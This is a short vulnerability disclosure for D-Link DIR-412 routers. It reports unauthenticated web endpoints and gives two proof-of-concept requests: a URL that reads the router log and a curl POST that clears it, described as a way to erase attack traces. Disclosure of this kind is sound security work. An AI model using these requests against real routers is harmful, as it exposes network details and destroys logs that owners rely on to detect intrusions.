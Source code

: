 #### info of vulnerability
There are some web interfaces without authentication requirements in D-Link routers. An attacker can get the router’s log file and clear it ,which could be used to detect inside network structure and erase the attack traces.

Vulnerable targets include but are not limited to the lastest firmware versions of DIR-412(A1-1.14WW)   

Poc1: http://targetip/log_get.php
Attackers can get log file by this request.
![poc1](https://github.com/dahua966/Routers-vuls/blob/master/DIR-412/poc1.png)
Poc2: curl -d "act=clear&logtype=sysact" "http://targetip/log_clear.php"
Attackers can clear log file by this request.
![poc2](https://github.com/dahua966/Routers-vuls/blob/master/DIR-412/poc2.png)
#### Acknowledgement
Thanks to the partners who discovered the vulnerability together：

Jian-bin Ye

Wei Xie

Zhen-hua Wang

En-Ze Wang